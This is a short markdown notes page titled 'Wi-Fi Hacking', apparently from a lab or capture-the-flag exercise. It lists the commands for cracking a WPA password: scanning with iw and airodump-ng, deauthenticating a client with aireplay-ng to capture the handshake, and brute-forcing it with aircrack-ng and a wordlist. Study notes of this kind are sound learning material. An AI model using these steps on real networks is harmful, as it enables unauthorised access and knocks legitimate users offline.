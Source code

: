 ```yaml
---
title: Wi-Fi Hacking
sidebar_position: 100
---
```


## WPA Hacking
- List all interfaces with the command `iw dev`.
- Scan for new networks using `sudo iw dev wlan2 scan`
- Get the BSSID and SSID values.
- Find the channel value using `sudo airodump-ng wlan2`.
- Attack the channel and create an output file using `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`. Keep this running.
- Open another terminal and send deauthentication packets to the connected device using `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`
- Wait for the 4 way handshake to happen in the first terminal.
- Bruteforce the password after the handshake happened using `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`.
- Get the password and connect to the interface.
